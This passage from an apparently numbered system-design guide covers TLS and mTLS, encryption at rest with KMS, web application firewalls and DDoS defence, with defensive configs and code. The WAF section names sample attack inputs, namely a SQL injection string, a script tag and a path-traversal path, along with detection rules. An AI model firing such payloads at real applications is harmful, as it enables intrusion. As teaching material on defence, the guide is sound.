**🎯 Remember:** A JWT is signed, not encrypted: verify the signature, `alg`, `exp`, `iss` and `aud` every time, keep it short-lived, and rotate keys with `kid` + JWKS by overlapping old and new keys.

**🔗 See also:** [#93 OAuth 2.0 (& OIDC)](#93-oauth-20--oidc), [#91 Secrets Management](#91-secrets-management), [#92 IAM](#92-iam)

---

### 95. Encryption in Transit

> **In one line:** Encryption in transit scrambles data while it travels across a network, so nobody along the way can read it or secretly change it.

**🏠 Real-life analogy:** Sending data over plain HTTP is like sending a **postcard**: the mail carrier, the sorting office and anyone in between can read it, or even scribble on it. TLS is like putting your letter in a **locked, tamper-evident box** that only the recipient can open. And before you hand it over, the recipient shows an **ID card** issued by an authority you trust (a certificate), so you know you are not giving it to an impostor.

**❓ What problem does it solve?**
Your data hops through many machines: your Wi-Fi router, your internet provider, internet exchanges, the cloud network, load balancers and other services. Without encryption:
- **Sniffing (eavesdropping):** on public Wi-Fi, anyone nearby can capture unencrypted traffic. The 2010 browser add-on *Firesheep* showed how easy it was to steal session cookies on open Wi-Fi and log in as other people, which pushed big sites to HTTPS-everywhere.
- **Man-in-the-middle (MITM):** an attacker (e.g., a fake "Free_Airport_WiFi" hotspot) sits between you and the server, reading *and changing* traffic — injecting ads or malware, or changing a bank account number.
- **Insider and internal threats:** once an attacker gets onto *one* machine inside your network, plain-text internal traffic lets them collect passwords and data from everything else.
- **Compliance:** standards like PCI DSS (card payments) require strong encryption of cardholder data sent over open, public networks.

**⚙️ How it works:**
1. **TLS (Transport Layer Security)** is the protocol behind the padlock; it replaced the older SSL. HTTPS is simply HTTP inside TLS. TLS gives three guarantees: *confidentiality* (nobody can read), *integrity* (nobody can change it unnoticed), and *authentication* (you are talking to the real server).
2. **The handshake, simplified:** the client says which TLS versions and ciphers it supports → the server sends its **certificate** (its public key, signed by a trusted **Certificate Authority**, or CA) → the client checks the signature chain and that the name matches the website → both sides agree on a fresh secret session key (ECDHE key exchange) → all further data is encrypted with fast symmetric ciphers like AES-GCM or ChaCha20-Poly1305. TLS 1.3 does this in a single round trip and always provides **forward secrecy**: even if the server's private key is stolen later, recorded old traffic cannot be decrypted.
3. **Versions:** SSL 2/3 and TLS 1.0/1.1 are broken or formally deprecated (RFC 8996). Allow **only TLS 1.2 and 1.3**.
4. **TLS everywhere — including internal traffic.** The old "castle and moat" model trusted everything inside the private network. **Zero trust** says: *never trust the network, always verify*. In 2013, reports showed intelligence agencies had tapped the private links *between* Google's and Yahoo's data centers; Google responded by encrypting traffic between its data centers, and its BeyondCorp work made zero trust mainstream.
5. **mTLS (mutual TLS):** in normal TLS only the server shows a certificate. In mTLS **both sides** do, so the server also knows exactly *which* client is calling. It is ideal for service-to-service calls, B2B / banking APIs (UK Open Banking requires it) and IoT devices.
6. **Service meshes** such as **Istio** and **Linkerd** put a small proxy next to every service. The proxies do mTLS automatically, issue each workload a short-lived certificate (typically valid for about a day) with an identity like `spiffe://cluster.local/ns/shop/sa/orders`, and rotate it automatically — without changing application code.
7. **Certificate management:** certificates expire, and an expired certificate is an instant outage (Microsoft Teams had a well-documented outage in February 2020 because an authentication certificate expired). Automate it: **Let's Encrypt** gives free 90-day certificates via the ACME protocol (certbot, Caddy), **cert-manager** does it inside Kubernetes, and **AWS Certificate Manager (ACM)** renews certificates for load balancers and CloudFront automatically. Monitor expiry dates anyway.
8. **HSTS (HTTP Strict Transport Security):** a response header that tells browsers "only ever talk to me over HTTPS for the next N seconds". This blocks *SSL-stripping* attacks that silently downgrade a user to plain HTTP. Sites can also join the browser **HSTS preload list**.

```mermaid
flowchart LR
    subgraph NoTLS["Without TLS (plain HTTP)"]
        U1["Your laptop"] -->|"password=hunter2"| Evil1["Attacker on<br/>coffee-shop Wi-Fi"]
        Evil1 -->|"reads, copies or changes it"| S1["Server"]
    end
    subgraph WithTLS["With TLS (HTTPS)"]
        U2["Your laptop"] -->|"8f3a91...e91c (encrypted)"| Evil2["Attacker on<br/>coffee-shop Wi-Fi"]
        Evil2 -->|"sees only gibberish,<br/>any change is detected"| S2["Server"]
    end
```

```mermaid
sequenceDiagram
    participant Orders as Orders Service
    participant CA as Internal CA
    participant Pay as Payments Service
    Orders->>CA: Request certificate for identity orders
    CA-->>Orders: Short-lived certificate
    Pay->>CA: Request certificate for identity payments
    CA-->>Pay: Short-lived certificate
    Orders->>Pay: ClientHello, I support TLS 1.3
    Pay-->>Orders: ServerHello, server certificate, please send your certificate
    Orders->>Orders: Check server cert is signed by internal CA and name is payments
    Orders->>Pay: Client certificate and proof I own its private key
    Pay->>Pay: Check client cert is signed by internal CA and identity is orders
    Note over Orders,Pay: Both sides verified and a session key is agreed
    Orders->>Pay: Encrypted request POST /charge
    Pay-->>Orders: Encrypted response 200 OK
```

**💻 Example:** An nginx server that allows only TLS 1.2/1.3, redirects HTTP to HTTPS, and sends an HSTS header:

```nginx
server {
    listen 80;
    server_name shop.example.com;
    return 301 https://$host$request_uri;          # force HTTPS
}

server {
    listen 443 ssl;
    server_name shop.example.com;

    ssl_certificate     /etc/letsencrypt/live/shop.example.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/shop.example.com/privkey.pem;
    ssl_protocols       TLSv1.2 TLSv1.3;            # no SSL, no TLS 1.0/1.1
    ssl_prefer_server_ciphers off;                  # modern clients pick well

    # Browsers: use HTTPS only, for 1 year, on all subdomains
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;

    location / { proxy_pass http://127.0.0.1:8080; }
}
```

The header the browser receives:

```http
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

Turning on strict mTLS for a whole Istio mesh (every service must present a certificate):

```yaml
apiVersion: security.istio.io/v1beta1
kind: PeerAuthentication
metadata:
  name: default
  namespace: istio-system      # root namespace = applies mesh-wide
spec:
  mtls:
    mode: STRICT               # reject any plain-text traffic between services
```

Calling a partner API with mTLS from Python:

```python
import requests

resp = requests.get(
    "https://partner-bank.example.com/v1/accounts",
    cert=("client.crt", "client.key"),   # OUR certificate + private key (mTLS)
    verify="partner-ca.pem",             # trust only the partner's CA
    timeout=10,
)
# NEVER use verify=False - it silently disables all protection against MITM
```

**🌍 Real-world usage:** Google Chrome marks plain-HTTP pages as "Not secure" (since 2018), so HTTPS is now the default for the whole web. Cloudflare provides free TLS certificates for sites on its network, and Let's Encrypt made free automated certificates normal. Kubernetes' own control plane talks over mTLS (API server, kubelets, etcd). Companies running many microservices use Istio or Linkerd to get mTLS between all services without code changes, and banks commonly require mTLS for partner APIs.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| TLS terminated at the load balancer only | Small apps on a tightly controlled private network | Plain text inside: one compromised host can sniff everything |
| End-to-end TLS (load balancer re-encrypts to services) | Most production systems, compliance (PCI DSS, HIPAA) | Certificates to manage on every service, small CPU cost |
| mTLS via a service mesh | Many microservices, zero trust, need service identities | Mesh complexity, sidecar resource overhead, harder debugging |
| mTLS built into the app | A few services, B2B APIs, IoT devices | You own certificate issuing and rotation |

**⚠️ Common mistakes:**
- Disabling certificate checks "to make it work" (`verify=False`, `NODE_TLS_REJECT_UNAUTHORIZED=0`, `curl -k`) — that turns TLS into encryption with a stranger.
- Letting certificates expire because renewal was manual and nobody monitored it.
- Still allowing TLS 1.0/1.1 or weak ciphers.
- Terminating TLS at the edge and sending plain HTTP across shared or untrusted internal networks.
- Enabling HSTS `preload` before *every* subdomain supports HTTPS — preload is hard to undo.

**🎯 Remember:** Encrypt every hop, inside the network too (zero trust). Use TLS 1.2+/1.3, automate certificates, add HSTS, and use mTLS when services must prove who they are.

**🔗 See also:** [#96 Encryption at Rest](#96-encryption-at-rest), [#92 IAM](#92-iam), [#93 OAuth 2.0 (& OIDC)](#93-oauth-20--oidc)

---

### 96. Encryption at Rest

> **In one line:** Encryption at rest scrambles stored data, so a stolen disk, backup or laptop is just useless noise without the key.

**🏠 Real-life analogy:** A jewellery shop locks its jewels in a safe every night. If a burglar carries off the whole safe, it is useless without the combination — and the combination is kept at a bank across town (a KMS), not taped to the safe. But during the day, when the shop is open and the safe is open, a robber who walks in through the front door can still grab the jewels. The safe protects jewels *at rest*, not jewels being handled.

**❓ What problem does it solve?**
Data sits in many places: disks, database files, snapshots, backups, object storage (S3), log files, laptops and USB sticks. Without encryption:
- A stolen or lost **laptop** exposes everything on it.
- An old **disk** that was thrown away or resold still contains readable data.
- A **backup or snapshot** copied to the wrong place, or shared by mistake, is readable by whoever finds it.
- Someone with physical access in a data center could read raw drives.
- Regulations (GDPR, HIPAA, PCI DSS) expect it — under GDPR, for example, if leaked data was properly encrypted ("unintelligible"), you may not have to notify every affected person.

**⚙️ How it works:**
1. Data is encrypted with a **symmetric key** (the same key locks and unlocks), almost always **AES-256**, usually in an authenticated mode like AES-GCM that also detects tampering.
2. **Encryption can happen at different levels:**

| Level | Examples | Protects against | Does NOT protect against |
|---|---|---|---|
| Full-disk / volume | BitLocker, FileVault, LUKS, AWS EBS encryption | Stolen laptop, stolen or discarded drive, raw disk copies | Anyone logged in to the running machine, the app itself |
| Database TDE (Transparent Data Encryption) | SQL Server TDE, Oracle TDE, encrypted Amazon RDS | Stolen database files and backups | SQL injection, stolen DB password, admins — the DB decrypts for every valid query |
| Object storage server-side | S3 SSE-S3 / SSE-KMS, Google Cloud Storage default encryption | Physical theft at the provider, raw disk access | Anyone with read permission on the bucket (e.g., a bucket made public) |
| Application / field-level | App encrypts a card number or national ID before saving it | Database dumps, DB admins, many SQL injection leaks, backups | A compromised app server that holds the keys |

3. **KMS (Key Management Service):** a service that stores your **master keys** — often inside an HSM (hardware security module, a tamper-resistant device) — and never lets them out. You send it small pieces of data to encrypt or decrypt; every use is checked by IAM (#92) and logged. Examples: **AWS KMS**, **Google Cloud KMS**, **Azure Key Vault**, and **HashiCorp Vault's Transit engine** ("encryption as a service").
4. **Envelope encryption:** KMS can only encrypt small payloads (AWS KMS's direct Encrypt call is limited to 4 KB) and calling it for every byte would be slow. So:
   - Ask KMS for a fresh **data key** (DEK). You get it twice: in plain text, and encrypted under the **master key** (KEK, key-encryption key).
   - Encrypt your data locally with the plaintext data key, then **throw the plaintext key away**.
   - Store the encrypted data **together with** the encrypted data key.
   - To read: send the encrypted data key to KMS, get the plaintext key back (only if IAM allows), decrypt locally.
   - Bonus — **crypto-shredding**: delete a key and all data encrypted with it is gone forever. Using one key per customer makes "delete all my data" requests much easier.
5. **Key rotation:** create new key versions on a schedule (AWS KMS can rotate customer-managed keys automatically, yearly by default). The KMS keeps old versions so old data can still be decrypted, while new data uses the new version. Thanks to envelope encryption, rotating a master key only means re-wrapping small data keys — not re-encrypting terabytes.
6. **What it does NOT protect against:** an attacker who compromises the **running app**, steals its credentials, or uses SQL injection sees **decrypted** data, because the system decrypts transparently for any authorized request. In the Capital One 2019 breach, the data sat in S3, but the attacker used the credentials of a role allowed to read it — storage encryption did not stop the download. Encryption at rest must be combined with least privilege (#92), secrets management (#91) and monitoring.
7. **Passwords are HASHED, not encrypted.** Encryption is reversible (with the key); a password hash is one-way. Store passwords with a slow, salted password-hashing function — **Argon2id** or **bcrypt** (scrypt and PBKDF2 are also acceptable) — and to log in, hash the attempt and compare. Never use plain SHA-256/MD5 for passwords: they are far too fast to brute-force.

```mermaid
flowchart LR
    Plain["Plain data<br/>(e.g. customer file)"] --> EncStep["Encrypt locally<br/>with AES-256"]
    DEK["Data key (DEK)<br/>plain text, in memory only"] --> EncStep
    EncStep --> CipherData["Encrypted data"]
    DEK --> Wrap["KMS encrypts the DEK<br/>with the master key"]
    KEK["Master key (KEK)<br/>never leaves KMS / HSM"] --> Wrap
    Wrap --> WrappedDEK["Encrypted data key"]
    CipherData --> Stored[("Stored together:<br/>encrypted data + encrypted DEK")]
    WrappedDEK --> Stored
```

```mermaid
sequenceDiagram
    participant App as App
    participant S as Storage
    participant KMS as KMS
    App->>S: Read encrypted data and encrypted data key
    S-->>App: Both blobs
    App->>KMS: Decrypt this encrypted data key
    KMS->>KMS: Check IAM permission and write audit log
    KMS-->>App: Plaintext data key
    App->>App: Decrypt data locally, then discard the key
```

**💻 Example:** The basics with the `cryptography` library's **Fernet** (AES encryption plus an integrity check, ready to use):

```python
from cryptography.fernet import Fernet   # pip install cryptography

key = Fernet.generate_key()   # keep this in a KMS / secret manager, NOT next to the data
f = Fernet(key)

token = f.encrypt(b"national_id=123-45-6789")
print(token)                  # b'gAAAAAB...' unreadable without the key
print(f.decrypt(token))       # b'national_id=123-45-6789'
```

Envelope encryption with AWS KMS — the master key never leaves KMS:

```python
import base64
import boto3
from cryptography.fernet import Fernet

kms = boto3.client("kms")
KEY_ID = "alias/customer-data"                     # master key (KEK) lives in KMS

def encrypt_record(plaintext: bytes) -> dict:
    dk = kms.generate_data_key(KeyId=KEY_ID, KeySpec="AES_256")
    f = Fernet(base64.urlsafe_b64encode(dk["Plaintext"]))  # 32 random bytes -> Fernet key
    return {
        "ciphertext": f.encrypt(plaintext),
        "encrypted_key": dk["CiphertextBlob"],    # safe to store, useless without KMS
    }                                              # plaintext key is not stored anywhere

def decrypt_record(record: dict) -> bytes:
    plain_key = kms.decrypt(CiphertextBlob=record["encrypted_key"])["Plaintext"]
    return Fernet(base64.urlsafe_b64encode(plain_key)).decrypt(record["ciphertext"])
```

And the right way to store a password — hashing, not encryption:

```python
from argon2 import PasswordHasher   # pip install argon2-cffi

ph = PasswordHasher()
stored = ph.hash("correct horse battery staple")  # '$argon2id$v=19$m=65536,t=3,p=4$...'
ph.verify(stored, "correct horse battery staple")  # True (raises an error if wrong)
```

**🌍 Real-world usage:** Amazon S3 automatically encrypts all new objects at rest (SSE-S3) since January 2023, and Google Cloud encrypts all customer data at rest by default. EBS volumes and RDS databases can be encrypted with KMS keys with a checkbox (or a Terraform flag). Modern iPhones and Android phones encrypt their storage, and companies require BitLocker or FileVault on employee laptops. Slack's Enterprise Key Management lets large customers control the keys for their own data using AWS KMS — a "customer-managed keys" (BYOK) model also offered by most cloud databases.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Full-disk / volume encryption | Always — laptops, servers, cloud volumes (usually free and on by default) | Only helps when the disk is stolen or copied |
| Database TDE / managed encryption | All production databases and backups | Transparent to anyone who can query the DB |
| Application / field-level encryption | Very sensitive fields: card numbers, health data, national IDs | Cannot easily search, sort or index encrypted fields, more code and key handling |
| Provider-managed keys | Default for most data | Less control and visibility over the keys |
| Customer-managed keys in KMS | Compliance, crypto-shredding, enterprise customers | You can lose data forever if you delete or lose the key |

**⚠️ Common mistakes:**
- Storing the key right next to the data (same database, same bucket, same Git repo) — like taping the combination to the safe.
- Treating encryption at rest as "we're secure" while access controls are weak — the app happily decrypts for the attacker.
- Forgetting copies: backups, snapshots, replicas, log files, analytics exports and staging databases filled with production data.
- Encrypting (or plain-hashing with MD5/SHA-256) passwords instead of using Argon2id or bcrypt.
- Writing your own crypto or using weak modes (like AES-ECB); losing or deleting the master key (AWS KMS forces a 7–30 day waiting period before key deletion for this reason).

**🎯 Remember:** Encryption at rest protects against stolen storage, not a hacked app. Keep keys in a KMS, use envelope encryption, rotate keys, and hash — never encrypt — passwords.

**🔗 See also:** [#95 Encryption in Transit](#95-encryption-in-transit), [#91 Secrets Management](#91-secrets-management), [#92 IAM](#92-iam)

---


### 97. WAF — Web Application Firewall

> **In one line:** A WAF is a security guard that reads every web request before it reaches your app and throws out the ones that look like attacks.

**🏠 Real-life analogy:** Think of airport security. Before anyone gets on the plane (your app), they walk through a checkpoint. Officers have a list of forbidden items (the **rules**). The X-ray machine looks *inside* bags, not just at the outside (the WAF reads the request body, not just the IP address). Suspicious travellers get extra screening (a **challenge** like a CAPTCHA). Sometimes grandma's knitting needles set off the alarm even though she is harmless (a **false positive**). And airport security does not make the plane safe to fly — you still need a good pilot and a well-built plane (**secure code**).

**❓ What problem does it solve?**
- A classic network firewall works at **Layer 3/4** (IP addresses and ports). It can say "only allow port 443", but it cannot understand *what is inside* a web request.
- A WAF works at **Layer 7** (the application layer — the HTTP request itself: URL, query string, headers, cookies and body).
- Attackers send requests that look totally normal at the network level but carry a nasty payload: `' OR '1'='1` in a login form (#101), `<script>` in a comment box (#102), `../../etc/passwd` in a file path, or 10,000 password guesses per minute.
- Without a WAF, every one of those requests lands in your code, and you are one bug away from a breach.
- A WAF also lets you **"virtually patch"** a known vulnerability: when Log4Shell (a critical Java logging bug) became public in December 2021, providers such as Cloudflare and AWS shipped WAF rules for it very quickly, buying teams time while they upgraded their code.

**⚙️ How it works:**
1. **Placement:** the WAF sits *in front of* your app — usually at the CDN edge (Cloudflare, AWS CloudFront + AWS WAF), on the load balancer (AWS ALB + AWS WAF, Azure Application Gateway), or as a module inside a reverse proxy (ModSecurity or Coraza in nginx, Apache, Envoy or Caddy).
2. **TLS termination:** HTTPS is encrypted, so the WAF must sit where the encryption is removed to be able to read the request (see #95 Encryption in Transit).
3. **Parsing and normalization:** it breaks the request into parts and "un-disguises" it — decoding URL encoding (`%27` becomes `'`), lowercasing, removing comments — because attackers try to hide payloads with encodings.
4. **Rule evaluation:** rules run in priority order. Each rule has a condition ("body contains a SQL injection pattern") and an action.
5. **Actions:** **Allow**, **Block** (usually HTTP 403), **Count/Log** (just record it), **Challenge** (JavaScript check or CAPTCHA), or **Rate limit** (HTTP 429).
6. **Logging:** every match is logged so the security team can investigate and tune the rules.

The main **rule types**:

| Rule type | What it does | Example |
|---|---|---|
| OWASP Core Rule Set (CRS) | Free, open-source set of generic attack signatures (SQLi, XSS, path traversal, remote code execution). Uses **anomaly scoring**: each match adds points and the request is blocked when the total passes a threshold. "Paranoia levels" 1–4 trade more protection for more false positives. | ModSecurity or Coraza + CRS |
| Managed rules | Rule sets written and updated by the vendor, including rules for brand-new vulnerabilities | AWS Managed Rules (Core rule set, SQL database, Known bad inputs), Cloudflare Managed Ruleset |
| Custom rules | Your own business logic | "Block `/admin` unless the request comes from the office IP range" |
| Rate-based rules | Count requests per key (IP, API key, header) in a time window | "More than 100 login attempts in 5 minutes from one IP → block" (see #14 Rate Limiting) |
| Bot management | Tells humans and good bots (like Googlebot) apart from bad bots using browser fingerprints, behavior and JavaScript challenges | Cloudflare Bot Management, AWS WAF Bot Control |
| Geo / IP reputation | Block or challenge traffic by country or from known-bad IP lists | Block countries you do not serve; AWS IP reputation list |

**Detection vs blocking mode:**
- **Detection mode** (also called *Count*, *Log*, *Simulate* or `DetectionOnly`): the WAF only *records* what it would have blocked. Real users are not affected.
- **Blocking mode** (also called *Prevention*): matching requests are actually stopped.
- The safe path is: turn a new rule on in detection mode → watch the logs for a few days → fix false positives → switch to blocking.

**False positives** are legitimate requests that look like attacks. A developer forum where people post SQL snippets, a customer named O'Brien (the apostrophe looks like SQL injection), or a rich-text editor that submits HTML can all trigger rules. The fix is a *narrow exclusion* ("skip rule X for the field `post_body` on `/forum/new`"), not turning the whole WAF off.

```mermaid
flowchart LR
    Users["Users and attackers"] --> Edge["CDN + WAF<br/>(TLS ends here)"]
    Edge -->|"clean requests"| LB["Load Balancer"]
    Edge -.->|"blocked: 403 / 429"| Dropped["Dropped and logged"]
    Edge -.->|"match logs"| SIEM["Security logs / SIEM"]
    LB --> App1["App server 1"]
    LB --> App2["App server 2"]
    App1 --> DB[("Database")]
    App2 --> DB
```

```mermaid
flowchart TD
    Req["Incoming HTTP request"] --> R1{"IP on blocklist?"}
    R1 -->|"yes"| Block["Block 403"]
    R1 -->|"no"| R2{"Rate limit exceeded?"}
    R2 -->|"yes"| Limit["Block 429 or challenge"]
    R2 -->|"no"| R3{"Managed or CRS rule matches?<br/>(SQLi, XSS, bad inputs)"}
    R3 -->|"no"| Allow["Forward to app"]
    R3 -->|"yes"| Mode{"Rule mode?"}
    Mode -->|"detection"| LogOnly["Log it, then forward"]
    Mode -->|"blocking"| Block
```

**💻 Example:**

An **AWS WAF rate-based rule** (JSON) that blocks any single IP sending more than 1,000 requests to `/login` within the rate window (5 minutes by default):

```json
{
  "Name": "LimitLoginPerIP",
  "Priority": 1,
  "Action": { "Block": {} },
  "Statement": {
    "RateBasedStatement": {
      "Limit": 1000,
      "AggregateKeyType": "IP",
      "ScopeDownStatement": {
        "ByteMatchStatement": {
          "SearchString": "/login",
          "FieldToMatch": { "UriPath": {} },
          "TextTransformations": [{ "Priority": 0, "Type": "NONE" }],
          "PositionalConstraint": "STARTS_WITH"
        }
      }
    }
  },
  "VisibilityConfig": {
    "SampledRequestsEnabled": true,
    "CloudWatchMetricsEnabled": true,
    "MetricName": "LimitLoginPerIP"
  }
}
```

`ScopeDownStatement` means "only count requests whose path starts with `/login`". `VisibilityConfig` turns on metrics so you can graph how often the rule fires.

The same ideas as **ModSecurity rules** (the open-source WAF engine used with nginx/Apache):

```text
# Start in detection mode; change to "On" after tuning false positives
SecRuleEngine DetectionOnly

# Block SQL injection patterns in any parameter (uses the libinjection library)
SecRule ARGS "@detectSQLi" \
    "id:100001,phase:2,deny,status:403,log,msg:'SQL injection attempt'"

# Only the office network (203.0.113.0/24) may reach /admin
SecRule REQUEST_URI "@beginsWith /admin" \
    "id:100002,phase:1,deny,status:403,log,msg:'Admin access from outside office',chain"
    SecRule REMOTE_ADDR "!@ipMatch 203.0.113.0/24"
```

**🌍 Real-world usage:**
- **Cloudflare WAF** runs at the edge of Cloudflare's network in front of millions of websites. **AWS WAF** attaches to CloudFront, Application Load Balancers and API Gateway. **Azure WAF** runs on Azure Front Door and Application Gateway. **Google Cloud Armor** offers WAF rules on Google's load balancers. Akamai, F5 and Imperva sell enterprise WAFs.
- Open source: **ModSecurity** (now an OWASP project) and **Coraza** (an OWASP WAF engine written in Go), both able to run the **OWASP Core Rule Set**.
- **The Cloudflare outage of July 2, 2019:** Cloudflare deployed a new managed WAF rule worldwide. It contained a **regular expression** (regex — a text-matching pattern) that, on certain inputs, made the regex engine **backtrack** — try an enormous number of ways to match before giving up. CPU on the machines serving HTTP/HTTPS traffic across Cloudflare's whole network jumped to 100%, and visitors to Cloudflare-protected sites saw 502 errors for about **27 minutes**. The rule was in "simulate" (log-only) mode — but the regex still ran on every request, so it still burned CPU. Lessons Cloudflare published: roll out WAF rules gradually like any other code, protect against runaway CPU, and use a regex engine with guaranteed running time.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Blocks lots of common, automated attacks with no code changes | Can be bypassed by clever encodings or brand-new attack payloads |
| "Virtual patching" buys time when a new vulnerability appears | False positives can block real customers |
| Central place for rate limits, bot rules and geo blocks | Adds a little latency and cost per request |
| Great logs and visibility into attack traffic | A bad rule can take down everything at once (Cloudflare 2019) |
| Managed rules are updated by experts for you | Easy to get a false sense of security |

**⚠️ Common mistakes:**
- Treating the WAF as a **substitute for secure code**. It is a safety net; parameterized queries (#101) and output escaping (#102) are the real fixes.
- Switching straight to **blocking mode** without a detection period, then blocking real customers — or the opposite: leaving it in detection mode forever.
- Leaving the **origin server reachable directly** by its IP, so attackers just skip the WAF. Only accept traffic from your CDN/WAF's IP ranges or use authenticated origin pulls.
- Deploying new rules **globally all at once** and writing regexes that can backtrack without limit.
- Forgetting that WAFs usually inspect only the **first few kilobytes** of a request body; huge bodies may slip through unless you block or limit oversized requests.

**🎯 Remember:** A WAF is a Layer-7 filter that stops known, noisy attacks and buys you time — it is a seatbelt, not a replacement for driving carefully (secure code).

**🔗 See also:** [#9 CDN](#9-cdn), [#11 Reverse Proxies](#11-reverse-proxies), [#14 Rate Limiting](#14-rate-limiting), [#98 DDoS Protection](#98-ddos-protection), [#101 SQL Injection](#101-sql-injection), [#102 XSS](#102-xss)

---

### 98. DDoS Protection

> **In one line:** A DDoS attack is when thousands of hijacked computers flood your service with junk traffic so real users can't get in, and DDoS protection soaks up and filters that flood.

**🏠 Real-life analogy:** You run a small shop. A prankster sends one annoying person to stand in the doorway — easy, the guard walks him out (that is a **DoS**). Now the prankster pays 10,000 strangers from all over the city to crowd your door at the same time. They look like normal shoppers, so you cannot just "ban that one guy" (that is a **DDoS**). Your fix is to move behind a giant mall entrance with hundreds of doors all over the city (an **anycast network**), where trained staff check everyone (**scrubbing**) and only send real customers to your shop.

**❓ What problem does it solve?**
- **DoS** (Denial of Service) means making a service unusable by using up one of its limited resources: network bandwidth, CPU, memory, connection slots, or database capacity.
- **DDoS** (Distributed Denial of Service) is the same thing from **many sources at once**. Blocking one IP address does nothing, and the total traffic can be larger than your entire internet connection.
- The attackers usually use a **botnet** — a network of computers or devices that were infected with malware and are now remote-controlled by the attacker (each one is a "bot" or "zombie"). Botnets are even rented out as "DDoS-for-hire" services.
- **Mirai (2016):** the Mirai malware scanned the internet for IoT devices (IP cameras, video recorders, home routers) still using factory-default passwords and took them over. On October 21, 2016, a Mirai botnet attacked **Dyn**, a major DNS provider. DNS (#1) turns names like `twitter.com` into IP addresses, so when Dyn was overwhelmed, many users could not reach **Twitter, Netflix, GitHub, Reddit** and other big sites — even though those sites' own servers were fine.
- Without protection, even a modest attack can knock a site offline for hours, costing sales and trust.

**⚙️ How it works:**

First, know the three families of attacks:

| Category | Layer | Examples | What it exhausts | Measured in |
|---|---|---|---|---|
| **Volumetric** | L3/L4 (network) | UDP floods, ICMP floods, **reflection/amplification** via DNS, NTP, memcached | Your network bandwidth (the "pipe") | Bits per second (Gbps, Tbps) |
| **Protocol** | L3/L4 | **SYN flood**, ACK floods, malformed or fragmented packets | Connection tables in servers, firewalls and load balancers | Packets per second |
| **Application layer** | L7 (HTTP) | **HTTP floods** (GET/POST), hammering expensive pages like search or login, Slowloris (very slow requests that hold connections open) | CPU, threads, database | Requests per second |

Two attack tricks worth understanding:
- **Reflection/amplification:** UDP (#2) has no handshake, so an attacker can *fake* the sender address ("spoofing"). They send tiny requests to thousands of open DNS, NTP or memcached servers with the **victim's IP** as the sender. Those servers send much bigger replies — to the victim. The "amplification factor" is reply size ÷ request size: dozens of times for DNS, hundreds for NTP's old `monlist` command, and up to tens of thousands of times for exposed memcached servers. In February 2018 GitHub was hit by a memcached amplification attack peaking at **1.35 Tbps**; it routed its traffic through Akamai's scrubbing service and was only intermittently unavailable for about 10 minutes.
- **SYN flood:** a TCP connection starts with a 3-step handshake (SYN → SYN-ACK → ACK). The attacker sends huge numbers of SYNs and never finishes the handshake. The server remembers each "half-open" connection until its queue is full, and then real users cannot connect.

The defenses, layer by layer:
1. **Anycast network:** the same IP address is announced from hundreds of data centers worldwide. Internet routing sends each packet to the *nearest* one, so a global botnet's traffic gets split across the whole network instead of piling onto one server.
2. **Scrubbing centers:** big filtering sites that receive your traffic, drop attack packets (spoofed, malformed, known-bad patterns) and forward only clean traffic to your origin. Some providers scrub in every edge location; others reroute your traffic to scrubbing centers when an attack starts.
3. **CDN (#9):** serves cached content from the edge, so most floods never reach your servers, and it hides your origin's real IP address.
4. **SYN cookies:** instead of storing every half-open connection, the server encodes the needed info inside the SYN-ACK's sequence number. Memory is only used when a real ACK comes back, so a SYN flood cannot fill the queue.
5. **Rate limiting (#14):** cap requests per IP, per user, or per API key.
6. **Caching (#38):** if 1 million requests hit the same cached page, it costs almost nothing.
7. **Autoscaling with caps (#65):** add servers to absorb an L7 spike — but always set a **maximum**, or the attack becomes a "denial of wallet" (a huge cloud bill).
8. **Blocking and challenges:** block bad IPs, networks or countries; show a JavaScript challenge or CAPTCHA to suspicious clients (for example Cloudflare's "Under Attack Mode").
9. **Lock down the origin:** accept traffic only from your protection provider's IP ranges, or the attacker will simply go around the shield.

```mermaid
flowchart LR
    Bots["Botnet<br/>(thousands of infected devices)"]
    Users["Real users"]
    subgraph Anycast["Anycast network: one IP announced from many places"]
        PoP1["Edge PoP Frankfurt<br/>filters locally"]
        PoP2["Edge PoP Virginia<br/>filters locally"]
        PoP3["Edge PoP Singapore<br/>filters locally"]
    end
    Scrub["Scrubbing layer<br/>(drop spoofed and junk packets,<br/>rate limit, challenge bots)"]
    Trash["Attack traffic discarded"]
    Origin["Your origin servers<br/>(accept only provider IPs)"]
    Bots --> PoP1
    Bots --> PoP2
    Bots --> PoP3
    Users --> PoP2
    PoP1 --> Scrub
    PoP2 --> Scrub
    PoP3 --> Scrub
    Scrub -.->|"bad traffic"| Trash
    Scrub ==>|"clean traffic only"| Origin
```

```mermaid
flowchart LR
    Attacker["Attacker"] -->|"small query, faked sender = victim IP"| Open1["Open DNS resolver"]
    Attacker -->|"small query, faked sender = victim IP"| Open2["Exposed memcached server"]
    Attacker -->|"small query, faked sender = victim IP"| Open3["Open NTP server"]
    Open1 ==>|"big reply"| Victim["Victim server"]
    Open2 ==>|"huge reply"| Victim
    Open3 ==>|"big reply"| Victim
```

**💻 Example:**

Basic hardening on a single Linux server. This helps against **small** protocol and L7 floods only — no single server can survive a volumetric attack bigger than its network link; that needs an upstream provider.

```bash
# Turn on SYN cookies (most Linux distributions already do)
sudo sysctl -w net.ipv4.tcp_syncookies=1
# Allow a bigger queue of half-open connections before cookies kick in
sudo sysctl -w net.ipv4.tcp_max_syn_backlog=4096
```

An nginx rate limit in front of your app for HTTP floods and slow clients:

```nginx
# Each client IP: about 10 requests/second on average
limit_req_zone  $binary_remote_addr zone=perip:10m rate=10r/s;
limit_conn_zone $binary_remote_addr zone=conns:10m;

server {
    listen 443 ssl;
    # Slowloris defense: don't wait forever for slow headers/bodies
    client_header_timeout 10s;
    client_body_timeout   10s;

    location / {
        limit_req  zone=perip burst=20 nodelay;  # allow short bursts of 20
        limit_req_status 429;                    # "Too Many Requests"
        limit_conn conns 20;                     # max 20 open connections per IP
        proxy_pass http://app_servers;
    }
}
```

**🌍 Real-world usage:**
- **Cloudflare** runs a large anycast network and includes DDoS mitigation in all plans, including the free one.
